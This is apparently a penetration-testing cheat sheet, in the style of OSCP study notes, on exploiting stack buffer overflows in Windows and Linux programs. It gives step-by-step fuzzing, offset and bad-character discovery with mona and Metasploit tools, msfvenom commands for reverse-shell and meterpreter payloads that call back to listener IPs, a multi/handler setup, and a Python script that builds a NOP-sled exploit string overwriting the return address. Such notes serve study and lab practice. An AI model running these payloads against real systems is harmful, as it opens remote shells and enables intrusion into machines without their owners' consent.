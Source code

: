 # Buffer overflow

## **Windows**

### **1. Fuzzing**

Find where we can buffer overflow&#x20;

Create a pattern :

```
/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 5000
```

Copy the EIP value and run the following command to find the offset

```
/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_offset.rb -q (EIP)
```

set the offset in exploit.py&#x20;

{% file src="../.gitbook/assets/exploit.py" %}

set retn to BBBB (42424242) in exploit.py

Verify that we have 42424242 in the EIP (we can control the EIP)

### 2. Finding bad chars

Generate badchars

```python
#!/bin/env python3

for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Put that into the payload in exploit.py

Mona check for badchars

```
!mona config -set workingfolder c:\mona\%p
!mona bytearray -b "\x00"
# Run exploit.py
!mona compare -f C:\mona\oscp\bytearray.bin -a <addressESP>
```

if we found badchars (`\xe6` for example):&#x20;

* take the first
* remove it from the payload
* `!mona bytearray -b "\x00\xe6"`
* restart program in immunity debugger
* rerun exploit.py
* REPEAT until no badchars

### 3. Finding a jump point

(specify all badchars)

```
!mona jmp -r esp -cpb "\x00"
```

check results in Log data : get the address and set it to the retn value in exploit.py for example : `625014DF` --> `retn = "\xDF\x14\x50\x62"`

### 4. Exploit

Reverse shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.0.43 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

Meterpreter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.0.43 LPORT=4444 -f c -b "\x00\x09"
```

If using WINE

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.8.189.215 LPORT=4242 EXITFUNC=thread -f c -e x86/shikata_ga_nai -a x86 -b "\x00"
```

### 5. Metasploit

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.9.0.43
set lport 4444
exploit
run post/multi/recon/local_exploit_suggester
```

## **Linux**

* Cause segmentation fault : `dmesg | tail` to see at which address segfault happened
* `readelf -s ./program` : s for symbols, allows to list symbols (and functions)
* `python -c "print 'A'*30" | ./program` : prints 30 times A to find the offset

Stack :

```
+-------
| ESP (extended stack pointer)
+-------
|
| buffer space
|
+-------
| EBP (extended base pointer)
+-------
| EIP (extended instruction pointer) / Return address
| this is the one we want to override
+-------
```

Finding buffer overflow : fuzzing = sending custom strings of varying length and content to each input we wish to test

**Exploiting a buffer overflow**

Generate a reverse shell in python (buffer)

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.9.0.78 LPORT=4444 -f python
```

To find the offset, use the string generated by `/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l xxxx` to create a segfault.

Run the target program in gdb, pass the string to generate the segfault and look into the registries : `info registries`.&#x20;

Look into rsp : `x/xg $rsp` and copy the value.&#x20;

Use this value in `/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_offset.rb -q VALUE` to find the offset.

Then, such a python program can be used to generate the exploit string:

```python
from struct import pack

buf = b""
# buf += ...

offset = 616
padding = offset - len(buf) - 100

# to find rip, look into the stack and find the line where the reverse shell payload starts
rip = 0x007fffffffe2d6
# add 0 at the start of the rip to have 8 bytes

payload = '\x90'*padding+ buf+'\x90'*100 + pack("<Q",rip)
# \x90 is important, it's NOP (no operation)
# pack allows to set the rip address in little endian or big endian
print payload
```

to find the rip address in gdb : `x/600x $rsp-600` to print the stack

locally, run `nc -lvnp 4444`

in gdb, run : `run < <(python sploit.py)`

### **gdb**

`break main` : set a breakpoint at main function `layout next` : displays the layout `watch variable` : track variable for changes `next` : next line `step` : step into function

### O**ther**

```bash
sudo socat TCP-LISTEN:1337,nodelay,reuseaddr,fork EXEC:"stdbuf -i0 -o0 -e0 ./program"
```
